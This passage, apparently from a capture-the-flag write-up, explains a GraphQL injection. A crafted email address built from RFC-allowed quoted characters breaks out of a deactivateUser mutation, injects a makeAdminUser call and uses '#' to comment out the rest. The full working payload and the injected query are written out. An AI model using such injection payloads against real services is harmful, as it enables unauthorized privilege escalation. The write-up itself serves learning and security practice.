 - Letters [a-Z]
- Digits [0-9]
- These special chars `!#$%&'*+-/=?^_{|}~`
- It does **NOT** allow `()[]:;@\,<> or space`

So how exactly can we get out of the string (`" <INPUT> "`) and use special chars? 

I (kinda) lied to you, the RFC actually allows almost any ASCII character when wrapped in double quotes, so all of these chars, `()<>[]:,;@\"!#$%^&*` and space, are allowed when inside double quotes.

<br> 

So this should be enough to build our exploit correct? 

_REMINDER_ : `" }) { success } makeAdminUser( user: { id: 1 } ) { `

<br>

So our local-part will be exactly that 

<br>

`" }) { success } makeAdminUser( user: { id: 1 } ) { "` and our domain `@cdm.com`

BUT this raises an issue, as it creates this errored mutation: 

```python
mutation {
            deactivateUser (user: {email: "" }) { success } makeAdminUser( user: { id: 1 } ) { "@cdm.com
                success
            }
        }

```

To solve this issue we can use a `#` to comment out the junk from our domain, remember the `#` is allowed!

So we get this payload: `"}){success} makeAdminUser(user:{id:1}){  #"@cdm.com`

Which gives us 

```python
mutation {
            deactivateUser (user: {email: "" }) { success } makeAdminUser( user: { id: 1 } ) { #"@cdm.com
                success
            }
        }

```

A correct query !!! 

Shoutout  to `coutinho21` for the help !

Now we just need to create a user with this email 
```python
"}){success} makeAdminUser(user:{id:1}){  #"@cdm.com
```
Making sure id corresponds with this same user's id and login, wait a few seconds for the deactivation task and _voilá_ we get the flag !
